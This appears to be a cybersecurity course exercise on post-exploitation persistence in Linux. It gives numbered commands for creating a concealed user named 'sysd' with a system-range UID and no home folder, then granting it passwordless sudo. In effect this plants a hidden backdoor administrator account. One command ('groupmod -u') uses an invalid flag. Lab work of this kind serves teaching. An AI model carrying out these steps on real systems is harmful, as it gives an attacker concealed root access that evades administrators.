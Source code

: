 # Advanced Bash - Owning the System

Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
    •	sudo useradd sysd

    2.	Give your secret user a password:
    •	sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
    •	sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
    •	sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
        •	sudo visudo
        ![see photo](/images/picture1.png)